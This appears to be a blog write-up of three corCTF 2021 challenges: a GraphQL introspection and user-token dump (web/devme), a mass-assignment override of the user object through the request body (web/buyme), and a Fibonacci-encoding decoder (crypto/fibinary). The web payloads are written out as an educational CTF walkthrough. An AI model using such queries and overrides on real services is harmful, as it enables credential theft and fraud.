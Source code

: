 ```yaml
---
title: corCTF 2021
tags: [write-up, ctf, corctf]
style: border
color: primary
description: Write-up in the corCTF 2021.
---
```


![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/website.png)

## web/devme

Challenge link [https://devme.be.ax/](https://devme.be.ax/)

### Challenge

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/devme/statement.png)

[Source website and devme.html here](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/_posts/cor-ctf-2021/devme/devme_files.zip)

### Solution

Using devtool that not give us anything special. Look up on the website, I see the form which allow me to POST something to server:

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/devme/sendEmail.png)

I try registing by (test@gmail.com) and using Burp to see what happen is going on:

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/devme/burp.png)

When I register, the website redirect to "/graphql" and post a query so that sever create new user. And I realize that **graphql** is the problem. It can help me sending a query or retriving the database by the right query.

After studying about graphql, I try posting the below query to see the behind structure of its "graphql":

```graphql
{
	"query": "query IntrospectionQuery {
		__schema {
			queryType {
			name
			}
			types {
				name
				fields {
					name
				}
			}
		}
	}"
}
```

![Result](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/devme/structure.png)

As you can see, it shows me some properties such as query type, type, name, field,.... This is the graphql structure of the website.

My mission is became easily. I think that I need to the data of User to get the admin data and try cheating.
```graphql
{
	"query": "query Query {
		users {
			username
			token
		}
	}"
}
```

![Result](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/devme/users.png)

I have the admin token ```<code>"username":"admin","token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b</code>``` and I will write a query to POST to the website so that get the flag!

### Flag

![flag](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/devme/flag.png)

## web/buyme

### Challenge

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/buyme/state.png)

Web challenge: https://buyme.be.ax/

Source buyme.tar.xz [chall folder](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/_posts/cor-ctf-2021/buyme/chall.rar)

### Solution

I try buying some flag to hope that some magic is happen =)))). Let's solve it :3

After check the source code, I had some comments:
- Password was hashed, so that injection is not a method.
- Cookie is a unique for each account. It include "username" + "randomBytes", so that we can't cheat it :3
- By file file api.js, we know the structure of user object.

From that, I think I can override the data when I request something =))) (fact: the last method which i can use :3).

In the source code, author uses Map() to set/get for object. I think I need to write something to request author to give me flag =))).

In the route /buy, we have ```db.buyFlag({ user: req.user, ...req.body });``` and I think that there is the place where we can override the data on *req.body* because the challenge will set the default user infomation before the system executes at /buy when user buys the flag.

Finally, I also register a real account to solve the challenge with ```username: aaabbb```. I use [Hack bar extension](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc) to POST by the data below:
```graphql
{
	"flag": "corCTF",
    "user":
	{
        "user":"aaabbb",
        "money":1e+300,
        "flags":[]
    }
}
```

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/buyme/solve.png)

### Flag
>**corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!}**
>
## crypto/fibinary

### Challenge

![](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/fibinary/state.png)

The challenge has two source code: [enc.py](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/_posts/cor-ctf-2021/fibinary/enc.py) and [flag.enc](cor-ctf-2021/fibinary/flag.enc)

### Solution

The source code [enc.py](https://github.com/nh4ttruong/nh4ttruong.github.io/blob/main/_posts/cor-ctf-2021/fibinary/enc.py):
```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

def c2f(c):
	n = ord(c)
	b = ''
	for i in range(10, -1, -1):
		if n >= fib[i]:
			n -= fib[i]
			b += '1'
		else:
			b += '0'
	return b

flag = open('flag.txt', 'r').read()
enc = ''
for c in flag:
	enc += c2f(c) + ' '
with open('flag.enc', 'w') as f:
	f.write(enc.strip())
```
The flag.enc:
```10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100```

The challenge is relate to *Fibonacci* array.

c2f(c) function is responsible for encryption. It converts each flag's letter to the binary array (len = 10).

So that I was write a noob script to decrypt the flag.enc ^^

```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

#fib = [1, 1, 2, 3, 5, 8, 13, 21, 34, 55, 89]
enc = "10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100"
arr = enc.split()
_list = []

def convert(c):
    asc = 0
    for i in range (0, 10, 1):
        if (c[i] == "1"):
            asc = asc + fib[int(10-i)]
        else:
            continue
    return chr(asc)

for i in range(0, len(arr), 1):    
    _list.append(convert(arr[i]))

print("".join(_list))
```

![Result](https://raw.githubusercontent.com/nh4ttruong/nh4ttruong.github.io/main/_posts/cor-ctf-2021/fibinary/flag.png)

### Flag
>**corCTF{b4s3_4nd_f1bp!113d}**
